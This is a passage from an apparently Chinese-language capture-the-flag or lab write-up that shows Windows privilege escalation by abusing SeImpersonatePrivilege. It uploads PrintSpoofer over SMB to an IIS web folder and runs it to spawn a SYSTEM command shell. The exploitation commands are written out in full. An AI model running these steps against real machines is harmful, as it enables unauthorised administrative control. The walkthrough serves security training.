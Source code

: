 由上图可知 当前用户似乎启用了 SeImpersonatePrivilege 令牌权限，这意味着我们可以使用令牌模拟来提升权限；接下来我们需要在目标机上执行一个漏洞利用程序--下载[PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)，并将该exe文件上传到目标机（可以通过SMB服务上传文件）。

[![](assets/1706771526-8ca8dcd796c79a79dd111c6c5a515f19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223355-6e1cde34-beb3-1.png)

```plain
dir /s /b c:\ | find "PrintSpoofer64.exe"
```

全局搜索一下刚刚上传的这个exe的位置

```plain
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -i -c cmd
```

[![](assets/1706771526-711388814998c7e20bd1f9f36834bab0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223400-71429234-beb3-1.png)

成功提权
